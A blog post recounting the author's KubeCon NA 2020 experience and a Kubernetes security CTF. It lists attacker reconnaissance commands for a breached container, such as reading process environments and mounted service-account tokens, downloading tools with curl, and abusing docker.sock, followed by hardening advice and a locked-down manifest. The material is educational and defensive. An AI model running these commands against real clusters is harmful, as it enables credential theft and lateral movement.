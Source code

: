 ```yaml
---
title: my capture the flag (ctf) and kubecon na 2020 experiences
date: 2020-11-30
tags: [containers, kubernetes, security]
description: let's see what I have learned during my first kubecon conference as well as my first capture the flag (ctf) experience to improve my knowledge about security with containers and kubernetes.
aliases:
    - /k8s-ctf/
---
```

Two weeks ago I did my first Capture The Flag (CTF) during the first time I (e-)attend a KubeCon conference.

Doing this remotely is definitely not the same feeling as I would have experienced in an in-person event. Nonetheless my KubeCon experience was awesome, I learned a lot and I really loved the energy and the momentum from the entire communities (organizers, speakers, sponsors, attendees, etc.). I felt that the focus around Kubernetes is more about how to simplify the developers versus operators experience (`buildpacks`, `kustomize`, `gitops`, `tye`, `cdk`, etc.) and to democratize security (`opa`/`gatekeeper`, `falco`, `eBPF`, etc.) around Kubernetes. If you are interested in reading great summaries from this event, I found very insightful the following resources:
- [KubeCon 2020 Highlights and Key Takeaways by StackRox](https://www.stackrox.com/post/2020/11/kubecon-2020-highlights-and-key-takeaways/)
- [KubeCon North America 2020 virtual recap by Anthony Dahanne](https://blog.dahanne.net/2020/11/18/kubecon-north-america-2020-virtual-recap/)
- [My experience at KubeCon 2020 North-America (Virtual) by Karol Deland](https://www.pragmacoders.net/my-experience-at-kubecon-2020-north-america-virtual/)
- [Different perspectives and takeaways were also discussed during the Eastern Canadian CNCF meetup December 2020](https://youtu.be/bgp6qls2bi8?t=454)

_Note: here are all the [on-demand sessions from KubeCon NA 2020, enjoy! ;)](https://www.youtube.com/playlist?list=PLj6h78yzYM2Pn8RxfLh2qrXBDftr6Qjut)._

You could also watch this [KubeCon NA 2020 Wrap Up Panel](https://youtu.be/EvIjXCAfhoo) where David McKay is with his all star panel guests, they are discussing all the major news and talking about their favourite talks; giving you everything you need to know in a friendly one hour session:
{{< youtube EvIjXCAfhoo >}}

As I have been educating myself more and more about security, especially around Kubernetes, during KubeCon I mostly focused my time on sessions related to Security. Here are 2 announcements I'm really excited about:
- [Announcing the Cloud Native Security White Paper](https://www.cncf.io/blog/2020/11/18/announcing-the-cloud-native-security-white-paper/)
- [Kubernetes Security Specialist Certification Now Available](https://www.cncf.io/announcements/2020/11/17/kubernetes-security-specialist-certification-now-available/)

On Nov 20th, the last day of KubeCon NA 2020, the [SIG-Honk AMA panel: Hacking and Hardening in the Cloud Native Garden](https://kccncna20.sched.com/event/eoIZ) was really informative. This group of friends and longtime Kubernetes security SMEs brought their unique perspectives and experience with securing, attacking, and deploying cloud native infrastructure to form ”sig-HONK,” an unofficial Special Interest Group focused on changing the way we think about and practice security in distributed systems. Related topics:
- [Ian Coldwater won the Top CNCF Ambassador award](https://www.cncf.io/announcements/2020/11/20/cloud-native-computing-foundation-announces-2020-community-awards-winners/), well deserved!
- [Having Cloud Native fun with HonkCTL](https://kccncna20.sched.com/event/ekBS) - [Challenges here](https://github.com/honk-ci/honkctl)

On Nov 17th I e-attended one of the co-located (i.e. extra pre-day) events: the [Cloud Native Security Day](https://events.linuxfoundation.org/cloud-native-security-day-north-america/program/schedule/). An entire day of sessions dedicated to Security with Kubernetes, amazing! But what was even more amazing is something I discovered the same day that a Capture The Flag (CTF) was happening throughout the day!  What!? Yep! For people like me who are eager to learn by having hands-on experience, what a good fit!

> Fun, education, no ranking, fast feedback and support with a dedicated Slack channel.

> In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment. In the real world, use good judgment. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

[The organizers of this CTF](https://control-plane.io/posts/hands-on-k8s-security/) did a great job and were very responsive on Slack to provide guidance and supports (yes, I needed a lot of tips, but that's ok, I went out of my comfort zone, that was the intent). All the experience started here: https://controlplaneio.github.io/kubecon-2020-sig-security-day-ctf/. From there, we went through 6 scenarios, ~1h each. With each scenario we act as an attacker already in a breached container, and from there we needed to find associated flags.

I won't go all the scenario one-by-one but instead will summarize commands an attacker will run: `id; uname -a; cat /etc/lsb-release /etc/redhat-release /etc/os-release; ps faux; df; mount; curl --version; wget --version`. From there they could see what they could do:
- which distrib is running?
- am I root?
- is there any process I could look at, like a database or anyting else sensitive `cat /proc/$PID/environ`?
- are `curl` or `wget` already installed?
- am I on a container? on kubernetes? is it a recent version of Kubernetes `curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version`?
- is the serviceaccount mounted? what is `ls /var/run/secrets/kubernetes.io/serviceaccount/` telling me? Which actions can I do `kubectl auth can-i --list`, `kubectl auth can-i create pods`?
- is the `docker.sock` mounted? can I leverage few `docker` commands to get more sensitive information or even move laterally?

More advanced scenario attackers will try, could be:
- Install `amicontained` to find out what container runtime is being used as well as features available: `cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained`
- Install `Docker` if `docker.sock` is mounted to get control on the host: `curl -fsSL https://get.docker.com -o get-docker.sh; docker ps; docker inspect; docker exec...`
- Install `kubectl` to interact with the API server: `export PATH=/tmp:$PATH; cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.19.4/bin/linux/amd64/kubectl; chmod 555 kubectl`

You could now play around on your own with these above commands with an `ubuntu` container on a given Kubernetes cluster:
```
kubectl run test -i --tty --rm --image ubuntu
```

So let's now talk about how to prevent and avoid such exploits, here are few tips we could leverage for our own security posture with our own containers running on Kubernetes:
- don't let any `curl` or `wget` components in your container if possible to prevent an attacker downloading files
- don't use privileged pod to prevent running as root and avoiding attacker installing tools in there
- don't mount the serviceaccount in your pod if you don't need it
- setup networking policies to restrict to the least minimum ingress and egress rules for your pods

Now you could deploy the same `ubuntu` container but with more security features, illustrated below, and from there, you could try again the above commands from an attacker perspective (tl,dr their live will be more complicated ;)):
```
kubectl apply -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: test2
  labels:
    app: test2
spec:
  selector:
    matchLabels:
      app: test2
  template:
    metadata:
      labels:
        app: test2
    spec:
      serviceAccountName: default
      automountServiceAccountToken: false
      securityContext:
        runAsUser: 1000
      containers:
        - name: test2
          securityContext:
            capabilities:
              drop:
                - all
            runAsNonRoot: true
            allowPrivilegeEscalation: false
            readOnlyRootFilesystem: true
          image: ubuntu
          command:
            - "sleep"
            - "604800"
          ports:
            - containerPort: 80
---
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: denyall
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
EOF
kubectl exec -it ubuntu-xxx -- bash
```

On my end, that's kind of setup and security posture I have been taking, here are more examples I have documented about this:
- [NetworkPolicies with Calico]({{< ref "/posts/2019/09/calico.md" >}})
- [PodSecurityContext]({{< ref "/posts/2020/04/pod-security-context.md" >}})

Complementary to this, here are other security features I'm leveraging with my Kubernetes cluster to add extra security layers:
- [Binary Authorization to sign your containers]({{< ref "/posts/2020/11/binauthz.md" >}})
- [Least privilege principle and Workload Identity with my GKE cluster]({{< ref "/posts/2020/10/gke-service-account.md" >}})
- [Containers scanning in registry](https://cloud.google.com/container-analysis/docs/vulnerability-scanning)
- [Minimal and optimized OS for my nodes with COS](https://cloud.google.com/container-optimized-os/) with [`containerd`](https://cloud.google.com/kubernetes-engine/docs/concepts/using-containerd) and auto-upgrade
- Use [Confidential Computing and Shielded Nodes]({{< ref "/posts/2020/10/confidential-computing.md" >}})
- Use [Private Cluster](https://cloud.google.com/kubernetes-engine/docs/concepts/private-cluster-concept)
- I will soon add an implementation of [`OPA/GateKeeper`](https://www.openpolicyagent.org/docs/latest/kubernetes-introduction/) too.

From there I was excited to do some research around other materials I could leverage to learn more about CTF or Attacker/Defender scenario with Kubernetes, here are other interesting resources on that regard:
- [KubeCon NA 2017 - Hacking and Hardening Kubernetes Clusters by Example](https://youtu.be/vTgQLzeBfRU) - [Presentation](http://goo.gl/TNRxtd) - [Demos](http://goo.gl/fwwbgB)
- [KubeCon NA 2019 CTF - Tutorial: Attacking and Defending Kubernetes Clusters: A Guided Tour](https://youtu.be/UdMFTdeAL1s) - [Demos](https://securekubernetes.com/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://youtu.be/HmoVSmTIOxM) - [Presentation](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)

Further and complementary resources:
- [11 Ways (Not) to Get Hacked](https://kubernetes.io/blog/2018/07/18/11-ways-not-to-get-hacked/)
- [`kubesec` by controlplane](https://kubesec.io/)
- [Cloud native security for your clusters](https://kubernetes.io/blog/2020/11/18/cloud-native-security-for-your-clusters/)
- [Hack my mis-configured Kubernetes – privileged pods](https://www.cncf.io/blog/2020/10/16/hack-my-mis-configured-kubernetes-privileged-pods/)
- [Introducing Voucher by Shopify, a service to help secure the container supply chain](https://cloud.google.com/blog/products/devops-sre/introducing-voucher-service-help-secure-container-supply-chain)
- [Best practices for building containers](https://cloud.google.com/solutions/best-practices-for-building-containers)
- [Best practices for operating containers](https://cloud.google.com/solutions/best-practices-for-operating-containers)

Security is a shared responsibility: your code, your containers and your Kubernetes clusters are not secured by default, let's democratize security since day 0 at the different levels and layers of your IT solutions!

Hope you enjoyed that one, stay safe, happy sailing and happy honking! ;)

Cheers!